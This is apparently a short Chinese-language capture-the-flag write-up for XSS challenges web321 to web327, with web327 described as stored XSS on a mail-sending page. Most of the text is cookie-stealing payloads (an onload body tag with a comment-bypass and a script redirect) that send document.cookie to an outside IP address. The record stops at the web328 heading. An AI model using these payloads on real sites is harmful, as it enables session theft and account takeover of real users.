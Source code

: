 ## web321~326

```
<body/**/onload="window.open('http://43.142.255.132/'+document.cookie)"></body>
```

## web327

存储型 XSS

一眼望去是一个发信的页面，这个和 XSS 有何关系呢？发信了之后，收信人可能会看嘛，也是符合**输入并回显**的

<img src="图片\Snipaste_2023-02-02_17-58-13.png" alt="Snipaste_2023-02-02_17-58-13" style="zoom:80%;" />

```
<script>window.location.href='http://43.142.255.132/'+document.cookie</script>
```

```
<body/**/onload="window.open('http://43.142.255.132/'+document.cookie)"></body>
```

## web328
